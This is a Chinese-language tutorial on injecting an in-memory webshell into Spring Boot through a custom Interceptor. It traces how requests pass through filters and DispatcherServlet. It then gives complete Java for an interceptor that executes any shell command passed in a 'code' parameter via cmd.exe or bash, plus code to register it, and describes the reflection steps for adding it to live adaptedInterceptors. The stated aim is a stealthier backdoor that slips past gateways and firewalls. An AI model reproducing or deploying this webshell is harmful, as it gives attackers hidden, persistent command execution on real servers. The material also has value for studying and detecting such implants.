




# SpringBoot内存马-interceptor

随着微服务部署技术的迭代演进，大型业务系统在到达真正的应用服务器的时候，会经过一些系列的网关，复杂均衡，防火墙。所以如果你新建的shell路由不在这些网关的白名单中，那么就很有可能无法访问到，在到达应用服务器之前就会被丢弃，关于我们该如何解决这个问题，就是这篇的结果。我们要达到的目的就是在访问正常的业务地址之前，就能执行我们的代码

## SpingBoot的简单跟踪

为了满足上面的需求，我们需要了解SpringBoot的生命周期，我们需要研究的是：一个请求到到应用层之前，需要经过那几个部分？是如何一步一步到到我们的Controller的?

总结一下就是`HttpRequest --> Filter --> DispactherServlet --> Interceptor --> Aspect --> Controller`

首先我们从这里开始，其中这个servlet是DispatcherServlet，从名字不难看出这是一个分发器


org.apache.catalina.core.ApplicationFilterFactory#createFilterChain首先将分发器设置成了当前的servlet

```java
filterChain.setServlet(servlet);
```

接下来则是获取filter并添加之后返回ApplicationFilterChain，这部分暂时略过，之后执行doFilter，具体是通过迭代进行

```
filterChain.doFilter(request, response) -> filter.doFilter(request, response)
```

最终会遍历完成所有 filter 的逻辑，这里我们不关注有兴趣可以自己跟一下源码

再之后就是调用DispatcherServlet的doDispatch进行分发

这是关键调用栈

```java
doService:963, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doGet:898, FrameworkServlet (org.springframework.web.servlet)
service:655, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:764, HttpServlet (javax.servlet.http)
internalDoFilter:227, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:117, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:117, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:117, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
```

这里我们跟入getHandler


可以看到是遍历`this.handlerMappings` 这个迭代器中的`mapper`的`getHandler` 方法处理Http中的request请求



继续往下追踪，最终会调用到`org.springframework.web.servlet.handler.AbstractHandlerMapping` 类的 `getHandler` 方法，并通过 `getHandlerExecutionChain(handler, request)` 方法返回 `HandlerExecutionChain` 类的实例



其中org.springframework.web.servlet.handler.AbstractHandlerMapping的getHandler第一行的代码会根据我们的请求去之前注册的控制器当中找到当前路径对应的方法

```
Object handler = this.getHandlerInternal(request);
```

好了，题外的不多说了现在我们知道程序在哪里加入的拦截器(`interceptor`)后，继续往下



跟进之后发现`interceptor.preHandle(request, response, this.handler)` 会遍历拦截器，并执行其`preHandle`方法



因此我们可以通过添加interceptor并实现preHandle来做到一个更为隐蔽的内存马

## 如何编写自定义的Interceptor

### 简单实现命令执行

```java
package com.test.happysb;

import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class TestInterceptor implements HandlerInterceptor {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String code = request.getParameter("code");
        if(code != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    p = new ProcessBuilder(new String[]{"cmd.exe", "/c", code});
                }else{
                    p = new ProcessBuilder(new String[]{"/bin/bash", "-c", code});
                }
                p.redirectErrorStream(true);
                Process process = p.start();
                BufferedReader r = new BufferedReader(new InputStreamReader(process.getInputStream()));
                String result = r.readLine();
                System.out.println(result);
                writer.println(result);
                writer.flush();
                writer.close();
            }catch (Exception e){
            }
            return false;
        }
        return true;
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
    }
}
```

### 注册拦截器

```java
package com.test.happysb;

import org.springframework.context.annotation.Configuration;
import org.springframework.web.servlet.config.annotation.InterceptorRegistry;
import org.springframework.web.servlet.config.annotation.WebMvcConfigurer;

@Configuration
public class InterceptorConfig implements WebMvcConfigurer {
    @Override
    public void addInterceptors(InterceptorRegistry registry) {
        String[] VulPathPatterns = {"/test"};

        registry.addInterceptor(new TestInterceptor()).addPathPatterns(VulPathPatterns);
    }
}
```

## 实现

spring boot 初始化过程中会往 `org.springframework.context.support.LiveBeansView` 类的 `applicationContexts` 属性中添加 `org.springframework.boot.web.servlet.context.AnnotationConfigServletWebServerApplicationContext` 类的对象。bean 实例名字是 `requestMappingHandlerMapping` 或者比较老版本的 `DefaultAnnotationHandlerMapping` 。那么获取 `adaptedInterceptors` 属性值就比较简单了，步骤如下

- 首先获取应用的上下文环境，也就是`ApplicationContext`
- 然后从 `ApplicationContext` 中获取 `AbstractHandlerMapping` 实例（用于反射）
- 反射获取 `AbstractHandlerMapping`类的 `adaptedInterceptors`字段
- 通过 `adaptedInterceptors`注册拦截器

具体实现代码在我的github仓库

[JavaSec/5.内存马学习/Spring/利用intercetor注入Spring内存马/code at main · Stakcery/JavaSec (github.com)](https://github.com/Stakcery/JavaSec/tree/main/5.内存马学习/Spring/利用intercetor注入Spring内存马/code)

## 参考文章

[LandGrey's Blog](https://landgrey.me/blog/19/)
